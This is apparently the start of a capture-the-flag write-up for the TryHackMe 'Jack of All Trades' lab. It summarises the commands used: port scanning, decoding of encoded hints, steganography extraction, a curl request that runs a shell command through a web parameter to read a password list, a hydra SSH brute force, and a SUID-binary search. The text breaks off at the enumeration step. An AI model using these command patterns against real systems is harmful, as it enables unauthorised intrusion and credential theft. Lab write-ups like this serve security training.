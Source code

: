 # TryHackMe-Jack of All Trades

**Scope:**

- Remote Code Execution (RCE)
- Steganography

**Keywords:**

- HTTP Port Check & Port Network Configuration
- Decoding with Logic
- Steganography
- Caesar Cipher
- SSH Login & Brute Force
- SCP File Transfer
- strings Binary

**Main Commands:**

- `nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -F $target_ip`
- `echo 'UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==' | base64 -d`
- `echo "GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=" | base32 --decode`
- `echo '45727a727a6f72652067756e67206775722070657271726167766e79662067622067757220657270626972656c207962747661206e657220757671717261206261206775722075627a72636e7472212056207861626a2075626a20736265747267736879206c6268206e65722c20666220757265722766206e20757661673a206f76672e796c2f3247694c443246' | xxd -p -r`
- `steghide extract -sf stego.jpg`
- `steghide extract -sf header.jpg`
- `curl -skLX $'GET' -b $'PHPSESSID=n2rtkedo3v33dtr3u8tqmevgp0; login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84' $'http://jack.thm:22/nnxhweOV/index.php?cmd=cat%20/home/jacks_password_list'`
- `hydra -l jack -P passwords -V -f -e ns -s 80 ssh://jack.thm`
- `ssh jack@jack.thm -p 80`
- `scp -P 80 jack@jack.thm:user.jpg .`

**System Commands:**

- `find / -type f -user root -perm -4000 -exec ls -ldb {} \; 2>>/dev/null`

### Laboratory Environment

[Jack-of-All-Trades](https://tryhackme.com/r/room/jackofalltrades)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -F $target_ip`

